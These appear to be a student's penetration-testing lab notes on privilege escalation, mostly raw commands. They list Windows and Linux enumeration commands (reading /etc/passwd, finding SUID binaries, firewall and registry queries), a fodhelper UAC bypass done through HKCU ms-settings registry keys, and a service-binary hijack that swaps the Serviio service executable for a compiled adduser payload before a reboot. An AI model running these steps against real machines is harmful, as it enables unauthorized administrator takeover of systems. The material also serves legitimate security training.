 ### Windows
```
whoami
net user student
net user
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
tasklist /SVC
ipconfig /all
route -print
netstat -ano
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
mountvol

powershell -> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}

reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
REG QUERY HKCU\Software\Policies\Microsoft\Windows\Installer

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
REG QUERY HKLM\Software\Policies\Microsoft\Windows\Installer

windows-privesc-check2.exe --dump -G

```

### Linux
```
whoami
id
cat /etc/passwd
hostname
cat /etc/issue
cat /etc/*-release
uname -a
ps aux
ip a
/sbin/route
ss -anp
iptables
iptables-save
iptables-restore
ls -lah /etc/cron*
cat /etc/crontab
dpkg -l
mount
cat /etc/fstab
/bin/lsblk
lsmod
/sbin/modinfo libata
find / -writable -type d 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

./unix-privesc-check standard > output.txt

```



```
whoami /groups

net user admin Ev!lpass
powershell.exe Start-Process cmd.exe -Verb runAs - will require accepting UAC prompt



```


```
cd C:\Tools\privilege_escalation\SysinternalsSuite 
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe

```
run fodhelper.exe
in process monitor - search fodhelper.exe
reg -> name not found -> HKCU 

HKCU:\Software\Classes\ms-settings\shell\open\command
HKCR:ms-settings\shell\open\command


REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f


Listing running services on Windows using PowerShell

```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}

icacls "C:\Program Files\Serviio\bin\ServiioService.exe"

i686-w64-mingw32-gcc adduser.c -o adduser.exe

move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"

move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"

dir "C:\Program Files\Serviio\bin\"

wmic service where caption="Serviio" get name, caption, state, startmode

whoami /priv

shutdown /r /t 0

net localgroup administrators

```
